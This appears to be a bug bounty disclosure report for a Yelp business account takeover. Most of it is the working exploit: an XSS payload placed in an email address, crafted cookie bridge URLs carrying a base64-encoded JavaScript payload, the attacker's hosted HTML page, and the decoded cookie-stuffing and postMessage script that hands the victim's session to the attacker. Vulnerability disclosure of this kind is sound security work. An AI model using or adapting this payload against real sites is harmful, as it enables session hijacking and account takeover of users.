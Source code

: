 # POC and video
We create a business account with the email `"<iframe/onload=eval(atob(location.hash.substring(1)))>"@calc.sh` without verifying it to get the Self-XSS gadget we need.

Using this account we make a request to `https://biz.yelp.com/cookie_bridge/store?dhl=da_DK&redir=/home/%23Zm9yICh2YXIgaSA9IDA7IGkgPCAxNjsgaSsrKSB7ZG9jdW1lbnQuY29va2llID0gYFgke2l9PSR7J1gnLnJlcGVhdCgxMDAwKX07IG1heC1hZ2U9ODY0MDA7IHBhdGg9L2Nvb2tpZV9icmlkZ2UvcmV0cmlldmVgfQp3aW5kb3cub3BlbmVyLnBvc3RNZXNzYWdlKHtyZWRpcmVjdDoiaHR0cHM6Ly9iaXoueWVscC5jb20vY29va2llX2JyaWRnZS9zdG9yZT9kaGw9ZGFfREsifSwgIioiKTsKc2V0VGltZW91dChmdW5jdGlvbigpIHthbGVydCgiYXR0YWNrZXIgY2FuIG5vdyBzaWduIGluIGFzIHZpY3RpbSBieSBnb2luZyB0bzoiICsgd2luZG93Lm9wZW5lci5sb2NhdGlvbi5ocmVmKX0sIDUwMDApOw%3D%3D` which returns a 303 redirect to
`https://biz.yelp.dk/cookie_bridge/retrieve?cookie_fsid=cZ1U9eNTN2is8YaF4pCBWA&redir=%2Fhome%2F%23Zm9yICh2YXIgaSA9IDA7IGkgPCAxNjsgaSsrKSB7ZG9jdW1lbnQuY29va2llID0gYFgke2l9PSR7J1gnLnJlcGVhdCgxMDAwKX07IG1heC1hZ2U9ODY0MDA7IHBhdGg9L2Nvb2tpZV9icmlkZ2UvcmV0cmlldmVgfQp3aW5kb3cub3BlbmVyLnBvc3RNZXNzYWdlKHtyZWRpcmVjdDoiaHR0cHM6Ly9iaXoueWVscC5jb20vY29va2llX2JyaWRnZS9zdG9yZT9kaGw9ZGFfREsifSwgIioiKTsKc2V0VGltZW91dChmdW5jdGlvbigpIHthbGVydCgiYXR0YWNrZXIgY2FuIG5vdyBzaWduIGluIGFzIHZpY3RpbSBieSBnb2luZyB0bzoiICsgd2luZG93Lm9wZW5lci5sb2NhdGlvbi5ocmVmKX0sIDUwMDApOw%3D%3D`.
{F2544134}

Getting this URL can obviously be automated, but for this POC we're just getting it manually and giving it as an argument to our POC HTML attack page. The attacker page looks like this:
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>yelp xss poc</title>
  <script>
    function openTarget() {
      t = document.location.hash.substring(1);
      window.target = window.open(t);
    }

    // register a postmessage listener
    window.addEventListener('message', function (e) {
      console.log(e);
      if (e.data && e.data.redirect) {
        location.href = e.data.redirect; // this is vulnerable to xss but idc
      }
    });

  </script>
</head>
<body>
  <h1>Yelp.com account takeover POC</h1>
  <button onclick="openTarget()">click here to start attack</button>
</body>
</html>

```
and is hosted here: `https://calc.sh/yelp-poc-bah7ooli.html`.
When the victim clicks our link in their browser they'll be signed in to our attacker account and the XSS payload will run. The payload is base64 encoded and the decoded payload looks like this:
```javascript
for (var i = 0; i < 16; i++) {document.cookie = `X${i}=${'X'.repeat(1000)}; max-age=86400; path=/cookie_bridge/retrieve`}
window.opener.postMessage({redirect:"https://biz.yelp.com/cookie_bridge/store?dhl=da_DK"}, "*");
setTimeout(function() {alert("attacker can now sign in as victim by going to:" + window.opener.location.href)}, 5000);
```